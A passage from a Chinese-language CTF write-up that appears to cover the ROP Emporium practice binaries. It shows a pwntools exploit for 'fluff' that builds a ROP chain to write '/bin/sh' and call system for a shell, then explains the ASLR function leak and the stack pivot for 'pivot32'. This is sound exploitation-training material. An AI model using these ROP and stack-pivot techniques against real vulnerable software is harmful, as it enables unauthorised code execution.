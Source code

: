 ```python
    # data -> r11
    payload += p64(xor_r11_r11)
    payload += "BBBBBBBB"
    payload += p64(pop_r12)
    payload += data
    payload += p64(xor_r11_r12)
    payload += "BBBBBBBB"

    # r11 -> [r10]
    payload += p64(mov_r10_r11)
    payload += "BBBBBBBB"*2
    payload += p64(0)

    return payload

payload  = "A"*40
payload += write_data("/bin/sh\x00", data_addr)
payload += p64(system_plt)

io = process('./fluff')
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```

### pivot32

这是挑战的最后一题，难度突然增加。首先是动态库，动态库中函数的相对位置是固定的，所以如果我们知道其中一个函数的地址，就可以通过相对位置关系得到其他任意函数的地址。在开启 ASLR 的情况下，动态库加载到内存中的地址是变化的，但并不影响库中函数的相对位置，所以我们要想办法先泄露出某个函数的地址，从而得到目标函数地址。

通过分析我们知道该程序从动态库 `libpivot32.so` 中导入了函数 `foothold_function()`，但在程序逻辑中并没有调用，而在 `libpivot32.so` 中还有我们需要的函数 `ret2win()`。

现在我们知道了可以泄露的函数 `foothold_function()`，那么怎么泄露呢。前面我们已经简单介绍了延时绑定技术，当我们在调用如 `func@plt()` 的时候，系统才会将真正的 `func()` 函数地址写入到 GOT 表的 `func.got.plt` 中，然后 `func@plt()` 根据 `func.got.plt` 跳转到真正的 `func()` 函数上去。

最后是该挑战最重要的部分，程序运行我们有两次输入，第一次输入被放在一个由 `malloc()` 函数分配的堆上，当然为了降低难度，程序特地将该地址打印了出来，第二次的输入则被放在一个大小限制为 13 字节的栈上，这个空间不足以让我们执行很多东西，所以需要运用 stack pivot，即通过覆盖调用者的 ebp，将栈帧转移到另一个地方，同时控制 eip，即可改变程序的执行流，通常的 payload（这里称为副payload） 结构如下：

```text
buffer padding | fake ebp | leave;ret addr |
```

这样函数的返回地址就被覆盖为 leave;ret 指令的地址，这样程序在执行完其原本的 leave;ret 后，又执行了一次 leave;ret。

另外 fake ebp 指向我们另一段 payload（这里称为主payload） 的 ebp，即 主payload 地址减 4 的地方，当然你也可以在构造 主payload 时在前面加 4 个字节的 padding 作为 ebp：

```text
ebp | payload
```

我们知道一个函数的入口点通常是：

```text
push ebp
mov  ebp,esp
```
